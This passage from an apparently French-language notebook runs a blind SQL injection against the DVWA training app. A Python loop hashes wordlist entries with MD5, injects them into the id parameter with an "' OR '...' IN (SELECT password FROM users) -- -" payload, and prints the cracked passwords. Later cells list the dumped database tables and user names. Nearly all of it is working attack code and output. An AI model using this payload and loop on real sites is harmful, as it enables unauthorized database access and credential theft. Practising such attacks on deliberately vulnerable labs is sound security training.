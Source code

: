 
```python
passwords_found = []
wordlist_password = open("wordlist/password.txt", 'r')
Lines = wordlist_password.readlines()
sql_start = "' OR '"
sql_end ="' IN (SELECT password FROM users ) -- -"


for line in Lines:
    string_hashed = hash_md5(line.strip())
    id_param = sql_start  + string_hashed + sql_end
    params = {
        'id': id_param,
        'Submit': 'Submit'
    }
    response = requests.get(url,params=params,cookies=cookies,headers=headers)
    if response.status_code == 200:
        print("[PASSWORD.FOUND] = ", line.strip())
        passwords_found.append(line.strip())

passwords_found
```

    [PASSWORD.FOUND] =  password
    [PASSWORD.FOUND] =  abc123
    [PASSWORD.FOUND] =  letmein
    [PASSWORD.FOUND] =  charley





    ['password', 'abc123', 'letmein', 'charley']




```python
print(" ---------- Infos de la BD --------- " )
print("Nom de la BD : ", db_name)
print("Tables de la BD :", tables_found)

print("\n")
print(" ---------- Les infos de la table users récupérées --------- " )
print("first_name :\t", list_of_first_name)
print("last_name :\t", list_of_last_name)
print("user :\t\t", list_of_user)
print("password :\t", passwords_found)

```

     ---------- Infos de la BD --------- 
    Nom de la BD :  dvwa
    Tables de la BD : ['users', 'User_', 'Users', 'guestbook']
    
    
     ---------- Les infos de la table users récupérées --------- 
    first_name :	 ['admin', 'Pablo', 'Gordon', 'hack', 'bob']
    last_name :	 ['admin', 'brown', 'smith', 'picasso', 'me']
    user :		 ['admin', 'Pablo']
    password :	 ['password', 'abc123', 'letmein', 'charley']


